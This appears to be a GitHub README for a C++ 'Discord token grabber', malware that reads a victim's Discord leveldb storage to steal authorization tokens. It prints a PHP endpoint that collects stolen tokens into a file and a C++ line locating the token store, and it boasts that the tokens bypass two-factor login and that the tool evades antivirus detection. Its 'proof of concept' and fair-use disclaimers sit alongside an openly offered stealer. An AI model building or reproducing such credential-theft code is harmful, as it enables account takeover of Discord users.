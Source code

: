 # Discord Token Grabber
A Discord token grabber written in C++.

This is a "token" or authorization key finder for the platform "Discord".

You can use "tokens" to login to other people's accounts with the authorization key bypassing 2fa.

# Web
The web code is very basic and tokens can be accessed by anyone so I would recommend changing it.
```php
<?php

if(isset($_GET["t"])){
	$file = fopen("tokens.txt", "a");

	$content = file_get_contents("tokens.txt");

	if(strpos($content, $_GET["t"]) === false){
		fwrite($file, $_GET["t"].'\n');
	}
	fclose($file);
}

?>

```

# Client
This code is not very well written as I'm using C++/14 and filesystem is still experimental.
As you can see here it's a hardcoded solution but it works fine for this purpose.
```cpp
auto files = split(exec("cd %appdata%/discord/Local Storage/leveldb && dir /n /b *"), "\n");
```

# Usage
This is illegal to use and is only a proof of concept since i haven't seen a C++ token grabber.
I do not condone use or distribution of it!

# Detection
Since it's fresh and not copied it is currently undetected

![Detection](https://antiscan.me/images/result/huIT9opQ9Off.png)

# Educational Purposes

Copyright Disclaimer Under Section 107 of the Copyright Act 1976,
allowance is made for"fair use" for purposes such as criticism, comment,news reporting,teaching scholarship, and research. Fair use is a use permitted by copyright statute that might otherwise be infringing. Non-profit, educational or personal use tips the balance in favor of fair use."

